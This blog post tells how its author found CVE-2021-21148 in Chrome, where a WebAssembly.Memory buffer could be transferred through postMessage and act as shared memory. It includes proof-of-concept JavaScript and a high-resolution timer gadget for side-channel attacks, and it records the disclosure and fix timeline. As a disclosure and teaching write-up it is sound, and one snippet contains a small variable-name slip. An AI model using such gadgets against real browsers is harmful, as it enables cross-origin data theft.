

Working on web standards often means thinking about tons of different edge cases of how the new standard might be used, and
writing tests to cover all those cases. When one of those tests fails in a particular browser, things get interesting:
is the standard wrong, or the browser's implementation of it? And what's the potential impact of one missing check?

In this blog post, I'll break down how toying around with a new feature shipped in Google Chrome in early 2021[^1] eventually led to finding a security vulnerability and getting my first CVE ([CVE-2021-21148]).

[^1]:
    This write-up is long overdue.
    Usually, security vulnerabilities are disclosed 90 days after they are reported.
    This bug is now over 2000 days old... Sorry for keeping you waiting! 😅

## Toying around with readable byte streams

In January 2021, as part of my ongoing work on [the Streams standard](https://streams.spec.whatwg.org/), I was testing
Chrome's brand-new implementation of readable byte streams.
[They had just shipped this feature as part of Chrome 89](https://chromestatus.com/feature/4535319661641728), making
them the first browser to do so. As such, I was eager to toy around with it.

> The following tests were performed on Chromium version 90.0.4398.0, built on January 24, 2021.

[Readable byte streams](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Using_readable_byte_streams) are a
specialized version of readable streams, where the stream's contents are raw bytes. You can read from such a stream
using a regular default reader, receiving the bytes as separate `Uint8Array` chunks:

```js
const reader = stream.getReader()
while (true) {
  const { done, value } = await reader.read()
  if (done) {
    break
  }
  console.log(value) // e.g. Uint8Array [ 1, 2, 3, 4 ]
}
```

However, a more efficient way is to use
a ["bring-your-own-buffer" (BYOB) reader](https://developer.mozilla.org/en-US/docs/Web/API/ReadableStreamBYOBReader).
Instead of receiving each chunk of bytes as a freshly allocated `Uint8Array`, you can allocate your own buffer upfront
and let the stream write the bytes directly into your buffer. This allows for "zero copy transfer": no extra buffers
need to be allocated or deallocated to get the data from the stream to the reader.

```js
const reader = stream.getReader({ mode: 'byob' })
let buffer = new ArrayBuffer(1024)
while (true) {
  // Read the next bytes into `buffer`, overwriting any previously read bytes.
  const { done, value } = await reader.read(new Uint8Array(buffer))
  if (done) {
    break
  }
  // `value` is a view upon our original buffer, not a newly allocated buffer.
  console.log(value)
  // > for example: Uint8Array [ 1, 2, 3, 4 ]
  // `read(view)` transfers `buffer`, so grab the re-transferred buffer
  // from `value` for the next iteration.
  buffer = value.buffer
}
```

Note that ownership of the buffer you pass to `byobReader.read(view)` is _[transferred](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Transferable_objects)_ to the stream. This prevents you
from reading or modifying the buffer's contents while the stream is filling the buffer. This is intended to give the
browser more freedom in how it implements the low-level I/O operations, without needing to worry about JavaScript code
seeing uninitialized or partial results.

Once the `read(view)` promise resolves, the buffer is transferred back to you and the read bytes become available in the
_returned_ view. Hence, if you want to re-use that same buffer for a subsequent `read(view)` call, you need to grab the
`.buffer` from that returned view.

## Non-transferable buffers

Let's put on our tester's hat and look for edge cases in this API. What happens if you call `byobReader.read(view)` with
a view _whose buffer cannot be transferred_?

One option is to use a [
`SharedArrayBuffer`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/SharedArrayBuffer).
These behave like regular `ArrayBuffer`s but can be shared across multiple threads, allowing multiple workers to read
and write to them in parallel. Usually, these workers would use some sort of synchronization
using [Atomics](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Atomics)
to safely operate on the shared memory.

As specified, `SharedArrayBuffer`s cannot be transferred: no one thread can have exclusive ownership over such a buffer.
Therefore, it cannot be passed in the transfer list of a `postMessage()` call:

```js
const worker = new Worker('worker.js')
const buffer = new SharedArrayBuffer(4)
worker.postMessage(buffer, { transfer: [buffer] })
// > Uncaught DOMException: Failed to execute 'postMessage' on 'Worker':
//   SharedArrayBuffer can not be in transfer list.
```

For the same reason, they cannot be used for `byobReader.read(view)`:

```js
const readable = new ReadableStream({
  type: 'bytes',
  pull(c) {
    console.log('pull called')
  }
})
const reader = readable.getReader({ mode: 'byob' })

const buffer = new SharedArrayBuffer(4)
const { done, value } = await reader.read(new Uint8Array(buffer))
// > Uncaught TypeError: Failed to execute 'read' on 'ReadableStreamBYOBReader':
//   The provided ArrayBufferView value must not be shared.
```

So far so good. However, there's another, less commonly known option to create a non-transferable buffer.

A [`WebAssembly.Memory`](https://developer.mozilla.org/en-US/docs/WebAssembly/Reference/JavaScript_interface/Memory)
object holds raw bytes of memory that can be used by a WebAssembly instance. These have their `[[ArrayBufferDetachKey]]` internal slot set to `"WebAssembly.Memory"` (as per
the [WASM JS API specification](https://webassembly.github.io/spec/js-api/#create-a-fixed-length-memory-buffer)), so
they cannot be transferred by a regular `postMessage` call. Instead, they can only be transferred by calling [
`WebAssembly.Memory.grow()`](https://developer.mozilla.org/en-US/docs/WebAssembly/Reference/JavaScript_interface/Memory/grow)
(through JavaScript) or by using the [
`memory.grow` instruction](https://developer.mozilla.org/en-US/docs/WebAssembly/Reference/Memory/grow) (through
WebAssembly).

Therefore, we should expect that calling `byobReader.read(view)` with a view backed by a `WebAssembly.Memory`'s buffer
will throw an error:

```js
const readable = new ReadableStream({
  type: 'bytes',
  pull(c) {
    console.log('pull called')
  }
})
const reader = readable.getReader({ mode: 'byob' })

const memory = new WebAssembly.Memory({ initial: 1 })
const { done, value } = await reader.read(new Uint32Array(memory.buffer))
// > pull called
// > Uncaught (in promise) TypeError: Failed to execute 'read' on 'ReadableStreamBYOBReader':
//   not able to transfer array buffer
```

Yep, that makes sense, `read(view)` fails because it could not transfer the array buffer.

## Something is not right

...Hang on, why did `pull` get called in that last example? 🤨

In the case of `SharedArrayBuffer`, the `TypeError` is being thrown while validating the input of `read(view)`, _before_
the stream could process the read request. Hence, `pull` was not called.

However, it seems that with `WebAssembly.Memory`, the error is being thrown _after_ the read request started processing.
Is it possible that the stream already added a new pull-into descriptor, and created a BYOB request for it?

```js
const readable = new ReadableStream({
  type: 'bytes',
  pull(c) {
    console.log('pull called')
    console.log('byobRequest exists?', c.byobRequest != null) // <<<
  }
})
const reader = readable.getReader({ mode: 'byob' })

const memory = new WebAssembly.Memory({ initial: 1 })
const { done, value } = await reader.read(new Uint32Array(memory.buffer))
```



Uh-oh. That is _definitely_ not supposed to happen. 😨

Let's take a step back: surely `postMessage` should correctly throw an error if we attempt to transfer a
`WebAssembly.Memory`'s buffer?

```js
const worker = new Worker('worker.js')
const memory = new WebAssembly.Memory({ initial: 1 })
worker.postMessage(memory.buffer, { transfer: [memory.buffer] })
```

Wait, that didn't throw any errors at all? 😱 But then what do we get on the worker's side?

```js
// worker.js
onmessage = (event) => {
  console.log('buffer.byteLength:', ev.data.byteLength)
}
// > buffer.byteLength: 65536
```

So the worker _does_ receive the buffer. Can it write back to it though?

```js
// main.js
const worker = new Worker('worker.js')
const memory = new WebAssembly.Memory({ initial: 1 })
worker.postMessage(memory.buffer, { transfer: [memory.buffer] })
const view = new Uint32Array(memory.buffer)
setTimeout(() => {
  console.log('read from main', view[0])
}, 100)

// worker.js
onmessage = (event) => {
  const view = new Uint32Array(event.data)
  view[0] = 424242
}

// > read from main 424242
```

The worker thread can write to the buffer, and the main thread can read the changed values from the buffer. Effectively, we've created an `ArrayBuffer` that is behaving like a `SharedArrayBuffer`.

## Impact

Immediately, I realized this was a big deal. Because of [vulnerabilities like Spectre and Meltdown](https://projectzero.google/2018/01/reading-privileged-memory-with-side.html), the `SharedArrayBuffer` API was initially disabled in [Chrome](https://developer.chrome.com/blog/meltdown-spectre?hl=en#high-resolution_timers), [Firefox](https://blog.mozilla.org/security/2018/01/03/mitigations-landing-new-class-timing-attack/) and [Safari](https://webkit.org/blog/8048/what-spectre-and-meltdown-mean-for-webkit/), and later [selectively re-enabled for websites with cross-origin isolation](https://web.dev/articles/cross-origin-isolation-guide). If we can construct an `ArrayBuffer` that has the same powerful capabilities as a `SharedArrayBuffer`, then it can bypass this cross-origin isolation requirement and potentially perform side-channel or cross-origin attacks.

In fact, we can readily construct a high-resolution timer gadget by adapting the listing A.6 from the paper [_"Fantastic Timers and Where to Find Them: High-Resolution Microarchitectural Attacks in JavaScript"_ by Schwarz et al.](https://gruss.cc/files/fantastictimers.pdf) to use `WebAssembly.Memory` instead of `SharedArrayBuffer`:

```javascript
// main.js
const counter = new Worker('counter.js')

const memory = new WebAssembly.Memory({ initial: 1 })
const view = new Uint32Array(memory.buffer)
counter.postMessage(view, [view.buffer])

setInterval(() => {
  console.log('timer', view[0])
}, 100)

// counter.js
onmessage = (event) => {
  const view = event.data
  while (true) {
    view[0]++
  }
}
```

I reported this vulnerability on the Chromium bug tracker on January 25, 2021.

## Timeline

The Chromium team was very quick to verify and fix this vulnerability.

[The actual fix in V8](https://chromium-review.googlesource.com/c/v8/v8/+/2653810) was to check if an array buffer is actually detachable before allowing it to be transferred. [This behavior was already agreed upon and specified in 2019](https://github.com/whatwg/html/issues/4601), with Firefox and Safari already implementing it. Now, Chromium is also aligned.

| Date                                                                | Event                              |
| ------------------------------------------------------------------- | ---------------------------------- |
| [2021-01-25](https://issues.chromium.org/issues/40054566#comment1)  | Vulnerability reported to Chromium |
| [2021-01-28](https://issues.chromium.org/issues/40054566#comment15) | Fix landed in M90 Canary           |
| [2021-02-01](https://issues.chromium.org/issues/40054566#comment23) | Fix merged to M89 Beta             |
| [2021-02-04](https://issues.chromium.org/issues/40054566#comment30) | Fix merged to M88 Stable           |
| [2021-02-04](https://issues.chromium.org/issues/40054566#comment39) | Assigned [CVE-2021-21148]          |
| [2021-02-10](https://issues.chromium.org/issues/40054566#comment55) | Awarded a VRP reward               |

Afterward, I also submitted a patch for [the Streams standard](https://github.com/whatwg/streams/pull/1123) to make `byobReader.read(view)` check whether transferring the view's buffer was actually successful before proceeding with the read request. This is now also [covered by Web Platform Tests](https://github.com/web-platform-tests/wpt/pull/28557).

## Conclusion

As it turns out, designing a new Web API is no simple task. Web platform APIs do not exist in isolation: they can interact with [any of the hundreds of existing Web APIs](https://web-platform-dx.github.io/web-features-explorer/features/), allowing web developers to combine them to build innovative and powerful websites and apps. However, it also means that we have to be careful when designing these APIs, and think about the ways some of these combinations could lead to unintended results. It helps to [keep some design principles in mind](https://www.w3.org/TR/design-principles/) to avoid common pitfalls, but often it still boils down to exploration and experimentation. And the work doesn't stop with writing the specification and the tests: bugs can creep into browser implementations that silently slip by all the existing tests. This is also why the web uses the term "living standard": nothing is set in stone, and the entire platform is ever-evolving.

In this case, I ended up finding a bug that could potentially be turned into an exploit, which means [I accidentally became a security researcher](https://www.zdnet.com/article/google-patches-an-actively-exploited-chrome-zero-day/). But I didn't start out with the goal of finding a security vulnerability, I was just poking around to see readable byte streams in action in Chrome -- like I would do with any newly shipped Streams API. It just so happens that this is more or less the same thing a security researcher would do. 😅

If this blog post got you interested in web standards, or you like thinking about these sorts of edge cases too: [get involved!](https://participate.whatwg.org/) There are tons of ways you can participate: whether it's [writing a new test](https://web-platform-tests.org/writing-tests/index.html), [suggesting a new feature](https://whatwg.org/faq#adding-new-features) or even contributing to [Chromium](https://chromium.googlesource.com/chromium/src/+/main/docs/contributing.md), [Firefox](https://firefox-source-docs.mozilla.org/setup/contributing_code.html) or [WebKit](https://webkit.org/contributing-code/). We welcome all new contributors, and you can always reach out for help.

[CVE-2021-21148]: https://nvd.nist.gov/vuln/detail/cve-2021-21148
